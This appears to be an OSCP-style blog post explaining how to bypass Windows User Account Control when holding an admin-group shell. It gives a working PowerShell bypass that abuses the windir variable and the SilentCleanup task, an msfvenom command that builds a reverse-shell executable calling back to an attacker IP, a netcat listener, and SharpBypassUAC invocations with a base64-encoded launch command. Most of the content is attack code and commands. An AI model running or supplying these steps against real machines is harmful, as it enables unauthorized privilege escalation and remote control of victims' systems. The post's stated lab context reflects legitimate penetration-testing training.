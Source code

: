 ```yaml
---
title: UAC bypass - why and how
date: 2022-06-05 12:20:00 -0600
categories: [UAC bypass, OSCP]
tags: [uac bypass, oscp]
---
```


# UAC bypass - why and how

As a hacker sometimes you will land on a windows machine as a user that has admin rights, but anything you try and do that will require admin rights will (mimikatz anyone?) get blocked by UAC. 

The benefits of UAC are listed [here](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-overview#:~:text=User%20Account%20Control%20(UAC,changes%20to%20system%20settings.)) but boil down to blocking automatic execution of malware and also gives a user a second chance to say no to something that they clicked on.

If you can RDP into the machine then they bypass is easy. Just click yes instead of no.

This post is for when you don't have RDP access into the box. I have two optoins that I use that have worked for me.

## Option 1 via powershell script:

```powershell
if((([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")) {
    #Payload goes here
    #It'll run as Administrator
    C:\Users\beaux\Downloads\rev.exe
} else {
    $registryPath = "HKCU:\Environment"
    $Name = "windir"
    $Value = "powershell -ep bypass -w h $PSCommandPath;#"
    Set-ItemProperty -Path $registryPath -Name $name -Value $Value
    #Depending on the performance of the machine, some sleep time may be required before or after schtasks
    schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I | Out-Null
    Remove-ItemProperty -Path $registryPath -Name $name
}
```
Credit to this forum post <https://forums.hak5.org/topic/45439-powershell-real-uac-bypass/>

## Option 2 via SharpBypassUAC

[SharpBypassUAC](https://github.com/FatRodzianko/SharpBypassUAC) has a bunch of options for bypassing UAC. Most of them are a "will not fix" from Microsoft. They don't consider it a real security issue.

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.134 LPORT=4433 -f exe -o rev.exe`

`rlwrap nc -lnvp 4433`

Then back on the victim machine:

`SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IEM6XFVzZXJzXGJlYXV4XERvd25sb2Fkc1xyZXYuZXhlIA==`

The last part is base 64:

```bash
echo Y21kIC9jIHN0YXJ0IEM6XFVzZXJzXGJlYXV4XERvd25sb2Fkc1xyZXYuZXhlIA== | base6
4 -d
cmd /c start C:\Users\beaux\Downloads\rev.exe
```

There are a few other options besides `-b eventvwr` that can be found on their github repo <https://github.com/FatRodzianko/SharpBypassUAC>

```
Example usage for eventvwr bypass to launch calc.exe
SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Example usage for fodhelper bypass to launch calc.exe
SharpBypassUAC.exe -b fodhelper -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Example usage for computerdefaults bypass to launch calc.exe
SharpBypassUAC.exe -b computerdefaults -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Example usage for sdclt bypass to launch calc.exe
SharpBypassUAC.exe -b sdclt -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Note: this appears to only work on Windows 10 in my testing
Example usage for slui bypass to launch calc.exe
SharpBypassUAC.exe -b slui -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Example usage for DiskCleanup bypass to launch calc.exe
SharpBypassUAC.exe -b dikcleanup -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhlICYmIFJFTQ==

Note: The command you execute will need to end in "&& REM"
```


If you are using it just for testing in htb or proving grounds you can grab the precompiled executable here:
<https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/SharpBypassUAC.exe> 

If not you should compile it yourself, just in case.